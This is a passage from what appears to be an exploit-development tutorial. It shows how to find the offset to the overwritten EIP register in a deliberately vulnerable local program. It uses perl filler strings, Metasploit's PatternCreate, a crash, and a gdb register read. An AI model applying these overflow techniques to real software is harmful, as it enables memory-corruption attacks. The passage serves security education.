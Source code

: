 really know way of telling what our offset is. Offset would be your buffer
  
minus the address of eip.

You could do something like so:
  
**
  
perl -e &#8216;print “A”x4 . “B”x4 .”C”x4&#8217; and so on&#8230;&#8230;.
  
** 
  
Then you could see what letter actually overwrote eip. We could then calculate the
  
offset and just add the eip to it. But thats not to practical
  
(well for this example its not bad).
  
So this is where we turn to metasploit.

Metasploit has an nice little perl PatternCreate() function to create a pattern of
  
unique 4 byte output. This way we can easily calculate where we overwrote $eip and
  
then find our offset. So earlier we know we overwrote $eip with 20 “A”&#8217;s.
  
Lets create a 20 line string which is unique every 4 bytes.
  
The module is located in ~/framework/lib.
  
**
  
perl -e &#8216;use Pex;print Pex::Text::PatternCreate(20)&#8217;
  
Aa0Aa1Aa2Aa3Aa4Aa5Aa
  
** 
  
Now lets overflow our vuln.c with that pattern.
  
**
  
./vuln Aa0Aa1Aa2Aa3Aa4Aa5Aa
  
sent to buffer : Aa0Aa1Aa2Aa3Aa4Aa5Aa
  
Segmentation fault (core dumped)
  
** 
  
Now lets see what is in $eip.
  
**
  
(gdb) i r $eip
  
eip 0x35614134 0x35614134
  
(gdb) q
  
** 
  
Now metasploit even makes it easier to calculate our offset with the help of
  
PatteronOffset.pl located in ~/framework/sdk
